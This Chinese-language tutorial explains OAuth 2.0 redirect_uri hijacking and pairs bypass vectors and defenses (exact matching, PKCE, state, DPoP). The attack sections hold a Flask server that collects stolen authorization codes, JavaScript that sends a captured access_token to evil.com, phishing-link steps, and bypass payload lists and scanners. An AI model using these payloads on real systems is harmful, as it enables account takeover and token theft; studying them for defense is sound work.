

## 案例七：OAuth 2.0重定向URI攻击

OAuth 2.0 授权码流程中，`redirect_uri` 参数决定了授权服务器将用户重定向到何处，同时携带授权码或令牌。如果授权服务器对该参数的校验存在缺陷，攻击者可以构造恶意重定向 URI，窃取授权码并冒充受害者身份访问受保护资源。本案例从 OAuth 2.0 协议原理出发，系统剖析重定向 URI 攻击的原理、手法、利用链和防御体系。

### OAuth 2.0 授权码流程回顾

理解攻击之前，必须先掌握合法的授权码流程（Authorization Code Flow）。这是 OAuth 2.0 中最安全、最常用的流程，适用于有后端服务器的 Web 应用。



关键点在于第 2 步中 `redirect_uri` 参数——它告诉授权服务器"授权完成后把用户送到哪里"。如果攻击者能操控这个值，就能把授权码劫持到自己的服务器。

### 攻击原理深度解析

#### redirect_uri 的安全职责

`redirect_uri` 在 OAuth 2.0 中承担双重安全职责：

| 职责 | 说明 | 失败后果 |
|------|------|----------|
| 授权码投递地址 | 授权服务器将 code 发送到此地址 | 授权码被劫持 |
| 令牌交换校验 | 令牌端点验证 redirect_uri 与授权请求一致 | 防护绕过 |
| CSRF 绑定 | state 参数与 redirect_uri 配合防 CSRF | 跨站请求伪造 |

RFC 6749 第 3.1.2.3 节明确要求：

> 授权服务器必须要求注册了多个重定向 URI 的客户端在授权请求中包含 redirect_uri 参数。如果只有一个注册的重定向 URI，则该参数是可选的。如果包含 redirect_uri 参数，授权服务器必须将其与注册值进行比较和匹配。

然而，许多授权服务器的实现并未严格遵循此要求。

#### 核心攻击向量

攻击者利用 `redirect_uri` 校验缺陷的手法可以归纳为以下几类：

**向量一：子路径绕过（Path Traversal / Subpath Bypass）**

如果授权服务器使用前缀匹配而非精确匹配：

```text
注册URI:  https://app.com/callback
攻击URI:  https://app.com/callback/../attacker
         → 实际解析为 https://app.com/attacker（可能被服务器接受）
攻击URI:  https://app.com/callback/../../attacker
攻击URI:  https://app.com/callback?next=https://attacker.com
```

**向量二：子域绕过（Subdomain Bypass）**

利用通配符或宽松的域名匹配：

```text
注册URI:  https://app.com/callback
攻击URI:  https://evil.app.com/callback    （如果做*.app.com通配匹配）
攻击URI:  https://app.com.attacker.com/callback （域名后缀欺骗）
```

**向量三：协议降级（Scheme Downgrade）**

```text
注册URI:  https://app.com/callback
攻击URI:  http://app.com/callback           （允许HTTP降级）
攻击URI:  app.com://callback                 （自定义scheme劫持）
```

**向量四：参数注入（Parameter Injection）**

```text
注册URI:  https://app.com/callback
攻击URI:  https://app.com/callback?evil=https://attacker.com
攻击URI:  https://app.com/callback#evil=https://attacker.com
```

如果应用在回调时将参数拼接重定向，授权码可能被泄露。

**向量五：开放重定向（Open Redirect）**

```text
注册URI:  https://app.com/callback
攻击URI:  https://app.com/redirect?url=https://attacker.com
```

如果 `app.com` 存在开放重定向漏洞，授权码会通过中间跳转泄露到攻击者服务器。

**向量六：SSRF 与 localhost 绕过**

```text
攻击URI:  http://localhost/callback         （部分授权服务器允许localhost）
攻击URI:  http://127.0.0.1/callback
攻击URI:  http://[::1]/callback
攻击URI:  http://0x7f000001/callback        （十六进制IP编码）
```

### 逐步攻击复现

以下演示一个典型的重定向 URI 劫持攻击流程。

#### 环境准备

攻击者需要：

- 一个可控域名（如 `evil.com`）
- 一个 HTTP 服务器接收回调（可以用 Burp Collaborator、Webhook.site 或自建）
- 目标应用的 `client_id`（通常可从公开的 JavaScript 代码或 OAuth 配置中获取）

```python
# 攻击者的回调接收服务器（Flask）
from flask import Flask, request
import json, datetime

app = Flask(__name__)
stolen_tokens = []

@app.route('/steal')
def steal():
    code = request.args.get('code', '')
    state = request.args.get('state', '')
    token = request.args.get('access_token', '')  # 隐式流程
    record = {
        'time': str(datetime.datetime.now()),
        'code': code,
        'state': state,
        'token': token,
        'all_params': dict(request.args),
        'headers': dict(request.headers),
    }
    stolen_tokens.append(record)
    print(f"[!] STOLEN: {json.dumps(record, indent=2)}")
    # 重定向回正常页面以避免受害者察觉
    return '<script>window.location="https://legitimate-site.com"</script>'

@app.route('/log')
def log():
    return json.dumps(stolen_tokens, indent=2)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=443, ssl_context='adhoc')
```

#### 攻击步骤

**第一步：侦察**

确认目标的 OAuth 配置。许多提供商公开 `.well-known/openid-configuration` 端点：

```bash
curl -s https://target.com/.well-known/openid-configuration | jq .
```

从返回的 JSON 中提取 `authorization_endpoint` 和 `token_endpoint`。

**第二步：测试 redirect_uri 校验逻辑**

逐步探测授权服务器对 `redirect_uri` 的校验边界：

```bash
# 测试1：精确匹配（应该被拒绝）
https://target.com/authorize?client_id=CLIENT_ID&response_type=code&redirect_uri=https://evil.com/steal

# 测试2：子路径绕过
https://target.com/authorize?client_id=CLIENT_ID&response_type=code&redirect_uri=https://target.com/callback/../evil

# 测试3：参数注入
https://target.com/authorize?client_id=CLIENT_ID&response_type=code&redirect_uri=https://target.com/callback?evil=https://evil.com

# 测试4：开放重定向
https://target.com/authorize?client_id=CLIENT_ID&response_type=code&redirect_uri=https://target.com/redirect?url=https://evil.com/steal

# 测试5：Scheme变体
https://target.com/authorize?client_id=CLIENT_ID&response_type=code&redirect_uri=http://target.com/callback

# 测试6：URL编码绕过
https://target.com/authorize?client_id=CLIENT_ID&response_type=code&redirect_uri=https://target.com/callback%00@evil.com
```

判断标准：如果授权服务器返回登录页面而非错误，说明 `redirect_uri` 被接受。

**第三步：构造钓鱼链接**

选择成功的 `redirect_uri` 变体，构造完整的授权链接：

```text
https://target.com/authorize
  ?client_id=LEGITIMATE_CLIENT_ID
  &response_type=code
  &redirect_uri=https://target.com/callback?next=https://evil.com/steal
  &scope=openid profile email
  &state=random_csrf_token
```

**第四步：投递与收割**

将钓鱼链接通过邮件、社交媒体或即时消息发送给目标用户。当用户点击并完成授权后：

1. 授权服务器将用户重定向到恶意 `redirect_uri`
2. 授权码被发送到攻击者服务器
3. 攻击者使用授权码在后端换取 `access_token`

```bash
# 攻击者用窃取的code换取token
curl -X POST https://target.com/oauth/token \
  -d "grant_type=authorization_code" \
  -d "code=STOLEN_CODE" \
  -d "redirect_uri=https://target.com/callback?next=https://evil.com/steal" \
  -d "client_id=LEGITIMATE_CLIENT_ID" \
  -d "client_secret=LEGITIMATE_CLIENT_SECRET"
```

注意：如果 `client_secret` 不可获取（机密客户端），攻击者只能在授权码有效期内直接使用，或者利用隐式流程（`response_type=token`）直接在 URL fragment 中获取 token。

### 真实世界案例

#### 案例一：GitHub OAuth 重定向绕过（CVE-2019-15134）

GitHub 的 OAuth 实现曾存在子路径匹配缺陷。攻击者通过以下方式绕过：

```text
注册URI:  https://legitimate-app.com/callback
攻击URI:  https://legitimate-app.com/callback/../../../attacker
```

GitHub 的匹配逻辑将路径规范化后仍匹配成功，导致授权码被发送到攻击者控制的路径。

**修复方案**：GitHub 将 URI 匹配改为精确匹配（exact string match），不再进行路径规范化。

#### 案例二：Facebook OAuth redirect_uri 参数注入

Facebook 的 OAuth 曾允许在 `redirect_uri` 中附加额外查询参数：

```text
注册URI:  https://app.com/callback
攻击URI:  https://app.com/callback?attacker_param=https://evil.com
```

回调端点在处理时将 `attacker_param` 作为重定向目标使用，导致授权码泄露。

**修复方案**：Facebook 引入严格的 URI 比较算法，忽略查询参数顺序但禁止新增参数。

#### 案例三：Microsoft Azure AD Scheme 混淆

Azure AD 曾在 `redirect_uri` 校验中未严格区分 scheme，攻击者可使用：

```text
注册URI:  https://app.com/callback
攻击URI:  app.com://callback           （自定义URI scheme）
攻击URI:  //app.com/callback           （协议相对URI）
```

移动应用中，自定义 scheme 可被恶意应用注册，劫持授权码。

**修复方案**：Azure AD 要求显式声明 scheme（https 或自定义 scheme），并进行精确字符串匹配。

#### 案例四：Slack 开放重定向链

Slack 的 OAuth 流程中，`redirect_uri` 被传递到应用的回调端点，该端点自身存在开放重定向漏洞：

```text
https://slack.com/oauth/authorize
  ?client_id=xxx
  &redirect_uri=https://app.com/auth/callback?return_to=https://evil.com
```

回调端点在收到授权码后，将 `return_to` 参数作为下一步重定向目标，授权码通过 `Referer` 头泄露。

### 高级利用技巧

#### 隐式流程直接获取 Token

对于使用隐式流程（Implicit Flow）的公共客户端，攻击者可以直接在 URL fragment 中获取 token，无需后端交换：

```text
https://target.com/authorize
  ?client_id=CLIENT_ID
  &response_type=token
  &redirect_uri=https://evil.com/steal
```

响应直接包含 `access_token`：

```text
https://evil.com/steal#access_token=eyJhbGciOiJSUzI1NiIs...
```

由于 fragment 不会发送到服务器，攻击者需要在 `evil.com/steal` 页面中用 JavaScript 提取：

```javascript
// evil.com/steal 页面的 JavaScript
const hash = window.location.hash.substring(1);
const params = new URLSearchParams(hash);
const token = params.get('access_token');
if (token) {
    // 发送到攻击者服务器
    fetch('https://evil.com/collect', {
        method: 'POST',
        body: JSON.stringify({ token }),
        headers: { 'Content-Type': 'application/json' }
    });
    // 重定向回正常页面
    window.location = 'https://legitimate-site.com';
}
```

#### 结合 XSS 的组合攻击

如果目标应用存在 XSS 漏洞，攻击者无需钓鱼即可完成劫持：

```javascript
// 利用XSS将OAuth授权码劫持到攻击者服务器
const authUrl = 'https://target.com/authorize?' +
    'client_id=CLIENT_ID&' +
    'response_type=code&' +
    'redirect_uri=' + encodeURIComponent('https://evil.com/steal') + '&' +
    'scope=openid profile email';
window.location = authUrl;
```

用户看到的是来自"target.com"的合法授权页面，降低了警觉性。

#### PKCE 降级攻击

如果授权服务器同时支持标准授权码流程和 PKCE 流程，攻击者可能通过以下方式绕过 PKCE 保护：

1. 发起不带 `code_challenge` 的标准授权码请求
2. 如果服务器未强制要求 PKCE，则正常流程返回授权码
3. 用窃取的授权码换取 token

```bash
# 标准请求（无PKCE）
https://target.com/authorize
  ?client_id=CLIENT_ID
  &response_type=code
  &redirect_uri=https://evil.com/steal
  &scope=openid

# 如果服务器接受此请求，则PKCE保护形同虚设
```

### 自动化扫描与工具

#### Burp Suite OAuth 测试

使用 Burp Suite 的 Autorize 插件和 OAuth Redirect URI Scanner：

1. 配置 Burp 代理，记录正常的 OAuth 流程
2. 在 Repeater 中修改 `redirect_uri` 参数，逐一测试绕过手法
3. 使用 Intruder 批量测试 URI 变体

```bash
# Intruder payload 列表
https://evil.com/callback
https://evil.com/callback/.
https://target.com/callback@evil.com
https://target.com/callback#@evil.com
https://target.com/callback?redirect=https://evil.com
https://target.com/callback%00@evil.com
http://target.com/callback
https://target.com/callback%09
https://target.com/callback%23evil.com
https://target.com/callback\@evil.com
```

#### 自动化脚本

```python
import requests
import urllib.parse

def test_redirect_bypass(base_url, client_id, redirect_variants):
    """测试多种redirect_uri绕过变体"""
    results = []
    for variant in redirect_variants:
        params = {
            'client_id': client_id,
            'response_type': 'code',
            'redirect_uri': variant,
            'scope': 'openid profile',
            'state': 'test123'
        }
        try:
            resp = requests.get(
                f"{base_url}/authorize",
                params=params,
                allow_redirects=False,
                timeout=10
            )
            result = {
                'uri': variant,
                'status': resp.status_code,
                'location': resp.headers.get('Location', ''),
                'vulnerable': resp.status_code in [302, 301] and 'error' not in resp.headers.get('Location', '').lower()
            }
            results.append(result)
            if result['vulnerable']:
                print(f"[!] POTENTIALLY VULNERABLE: {variant}")
                print(f"    Redirect to: {result['location']}")
        except Exception as e:
            results.append({'uri': variant, 'error': str(e)})
    return results

# 绕过变体列表
variants = [
    'https://evil.com/steal',
    'https://target.com/callback/../../../evil',
    'https://target.com/callback?evil=https://evil.com',
    'https://target.com/redirect?url=https://evil.com',
    'http://target.com/callback',
    'https://target.com/callback%00evil.com',
    'https://target.com/callback#.evil.com',
    'https://evil.target.com/callback',
    'https://target.com/callback/evil',
    'https://target.com/callback;evil=https://evil.com',
]

target = 'https://target.com'
client_id = 'KNOWN_CLIENT_ID'
results = test_redirect_bypass(target, client_id, variants)
```

#### nuclei 模板

```yaml
id: oauth-redirect-uri-bypass
info:
  name: OAuth 2.0 Redirect URI Bypass Detection
  severity: high
  description: 检测OAuth授权端点是否接受未注册的重定向URI

requests:
  - method: GET
    path:
      - "{{BaseURL}}/authorize?client_id=test&response_type=code&redirect_uri={{interactsh-url}}/callback&scope=openid"
    matchers-condition: and
    matchers:
      - type: word
        words:
          - "302"
          - "redirect"
        part: header
      - type: word
        words:
          - "{{interactsh-url}}"
        part: header
```

### 防御体系

#### 一、精确匹配（Exact String Matching）

这是最根本的防御。授权服务器必须对 `redirect_uri` 进行精确字符串比较：

```python
import urllib.parse

def validate_redirect_uri(registered_uris: list, requested_uri: str) -> bool:
    """
    严格验证redirect_uri：
    1. 精确字符串匹配（推荐）
    2. 规范化后匹配（备选，但需谨慎）
    """
    # 方法1：精确匹配（最安全）
    if requested_uri in registered_uris:
        return True

    # 方法2：规范化后匹配（仅在必要时使用）
    parsed_req = urllib.parse.urlparse(requested_uri)
    for registered in registered_uris:
        parsed_reg = urllib.parse.urlparse(registered)
        # 完整比较 scheme、host、port、path、query
        if (parsed_req.scheme == parsed_reg.scheme and
            parsed_req.hostname == parsed_reg.hostname and
            parsed_req.port == parsed_reg.port and
            parsed_req.path.rstrip('/') == parsed_reg.path.rstrip('/') and
            parsed_req.query == parsed_reg.query and
            parsed_req.fragment == parsed_reg.fragment):
            return True

    return False

# 测试
registered = ['https://app.com/callback']
print(validate_redirect_uri(registered, 'https://app.com/callback'))          # True
print(validate_redirect_uri(registered, 'https://app.com/callback/evil'))     # False
print(validate_redirect_uri(registered, 'http://app.com/callback'))           # False
print(validate_redirect_uri(registered, 'https://evil.com/callback'))         # False
```

#### 二、强制使用 HTTPS

禁止所有非 HTTPS 的 `redirect_uri`，防止授权码在传输中被拦截：

```python
def enforce_https(uri: str) -> bool:
    """强制要求redirect_uri使用HTTPS"""
    parsed = urllib.parse.urlparse(uri)
    if parsed.scheme != 'https':
        raise ValueError(f"redirect_uri必须使用HTTPS，当前scheme: {parsed.scheme}")
    # 额外检查：禁止localhost和内网IP（生产环境）
    if parsed.hostname in ['localhost', '127.0.0.1', '::1', '0.0.0.0']:
        raise ValueError("redirect_uri不允许指向本地地址")
    return True
```

#### 三、实施 PKCE

PKCE（Proof Key for Code Exchange，RFC 7636）是防止授权码拦截的最有效机制，特别适用于公共客户端（如移动应用、SPA）：

```python
import hashlib, base64, secrets

def generate_pkce_pair():
    """生成PKCE的code_verifier和code_challenge"""
    # code_verifier: 43-128字符的随机字符串
    code_verifier = base64.urlsafe_b64encode(secrets.token_bytes(32)).decode('utf-8').rstrip('=')

    # code_challenge: SHA256哈希后的base64url编码
    code_challenge = base64.urlsafe_b64encode(
        hashlib.sha256(code_verifier.encode('ascii')).digest()
    ).decode('utf-8').rstrip('=')

    return code_verifier, code_challenge

# 客户端生成PKCE参数
verifier, challenge = generate_pkce_pair()
print(f"code_verifier: {verifier}")
print(f"code_challenge: {challenge}")

# 授权请求中携带code_challenge
# GET /authorize?...&code_challenge=xxx&code_challenge_method=S256

# 令牌交换时携带code_verifier
# POST /token?...&code_verifier=xxx
```

PKCE 的安全保证：

- 即使攻击者截获了授权码，没有 `code_verifier` 也无法换取 token
- `code_verifier` 从未在网络上传输（只有其哈希值 `code_challenge` 在授权请求中发送）
- 每次授权流程使用不同的 `code_verifier`，无法重放

#### 四、state 参数防 CSRF

`state` 参数用于防止 CSRF 攻击，必须是加密安全的随机值且不可预测：

```python
import secrets
import json
from datetime import datetime, timedelta

def generate_state(session_id: str) -> str:
    """生成加密安全的state参数"""
    state_data = {
        'nonce': secrets.token_hex(16),
        'session': session_id,
        'timestamp': int(datetime.now().timestamp()),
        'redirect': '/dashboard'  # 授权完成后的前端路由
    }
    # 生产环境应使用HMAC签名或加密
    return base64.urlsafe_b64encode(json.dumps(state_data).encode()).decode()

def validate_state(state: str, session_id: str, max_age: int = 300) -> bool:
    """验证state参数的有效性"""
    try:
        decoded = json.loads(base64.urlsafe_b64decode(state))
        # 检查会话匹配
        if decoded['session'] != session_id:
            return False
        # 检查时效性（5分钟内）
        if int(datetime.now().timestamp()) - decoded['timestamp'] > max_age:
            return False
        # 检查nonce是否在已使用集合中（防重放）
        # ... 省略存储层实现
        return True
    except Exception:
        return False
```

#### 五、Token 绑定与 DPoP

DPoP（Demonstration of Proof-of-Possession，RFC 9449）将 token 绑定到特定的密钥对，即使 token 被窃取也无法在其他客户端使用：

```python
import jwt
import json
from cryptography.hazmat.primitives.asymmetric import ec
from cryptography.hazmat.primitives import hashes

def create_dpop_proof(method: str, url: str, private_key, access_token: str = None):
    """创建DPoP证明"""
    headers = {
        'typ': 'dpop+jwt',
        'alg': 'ES256',
        'jwk': {
            'kty': 'EC',
            'crv': 'P-256',
            'x': '...',  # 公钥x坐标
            'y': '...',  # 公钥y坐标
        }
    }
    payload = {
        'htm': method,
        'htu': url,
        'iat': int(datetime.now().timestamp()),
        'jti': secrets.token_hex(8),
    }
    if access_token:
        payload['ath'] = base64.urlsafe_b64encode(
            hashlib.sha256(access_token.encode()).digest()
        ).decode().rstrip('=')

    return jwt.encode(payload, private_key, algorithm='ES256', headers=headers)
```

#### 六、实施安全审计清单

在 OAuth 2.0 集成的代码审查中，逐项检查：

| 检查项 | 要求 | 风险等级 |
|--------|------|----------|
| redirect_uri 匹配方式 | 精确字符串匹配 | 高 |
| 允许的 scheme | 仅 HTTPS（生产环境） | 高 |
| PKCE 支持 | 强制 S256 方法 | 高 |
| state 参数 | 加密安全随机值，绑定会话 | 高 |
| client_secret 管理 | 不暴露给前端，定期轮换 | 高 |
| 隐式流程 | 已弃用，改用授权码+PKCE | 中 |
| Token 存储 | HttpOnly Cookie 或后端存储 | 中 |
| redirect_uri 注册数量 | 最小化，仅注册必要 URI | 中 |
| 日志审计 | 记录所有授权/令牌请求 | 低 |

### 常见误区

**误区一：认为子路径匹配是安全的**

"我注册了 `https://app.com/callback`，攻击者只能访问这个路径。"

现实：子路径匹配允许 `https://app.com/callback/anything`，如果回调端点对子路径的处理存在缺陷（如将后续路径作为重定向目标），授权码仍可泄露。

**误区二：认为 HTTPS 足以保护授权码**

"授权码在 HTTPS 中传输，所以是安全的。"

现实：HTTPS 保护传输过程，但不保护端点。如果 `redirect_uri` 指向攻击者服务器，HTTPS 只是确保授权码"安全地"送达攻击者。

**误区三：认为 state 参数可以替代 redirect_uri 验证**

"有了 state 参数就不需要严格校验 redirect_uri 了。"

现实：`state` 参数防的是 CSRF，不防 redirect_uri 劫持。攻击者可以自己生成有效的 state 值。

**误区四：认为 PKCE 只适用于移动应用**

"PKCE 是给移动应用用的，Web 应用不需要。"

现实：RFC 7636 最初为移动应用设计，但 OAuth 2.1 草案已将 PKCE 列为所有客户端的强制要求。Web 应用同样面临授权码拦截风险（通过 XSS、开放重定向等），PKCE 是通用防护。

**误区五：认为隐式流程仍然安全**

"我们用的是隐式流程，token 在 fragment 中，不会被服务器截获。"

现实：OAuth 2.1 已正式弃用隐式流程。fragment 可被客户端 JavaScript 读取，如果 `redirect_uri` 被劫持，攻击者页面上的 JS 可以直接提取 token。

### 延伸阅读

- [RFC 6749 - The OAuth 2.0 Authorization Framework](https://datatracker.ietf.org/doc/html/rfc6749)
- [RFC 7636 - Proof Key for Code Exchange (PKCE)](https://datatracker.ietf.org/doc/html/rfc7636)
- [RFC 9449 - OAuth 2.0 Demonstrating Proof-of-Possession (DPoP)](https://datatracker.ietf.org/doc/html/rfc9449)
- [OAuth 2.1 Draft](https://datatracker.ietf.org/doc/html/draft-ietf-oauth-v2-1-10)
- [PortSwigger - OAuth Authentication Hacking](https://portswigger.net/web-security/oauth)
- [OWASP - OAuth 2.0 Threat Model](https://datatracker.ietf.org/doc/html/rfc6819)
- [HackTricks - OAuth Account Takeover](https://book.hacktricks.xyz/pentesting-web/oauth-to-account-takeover)
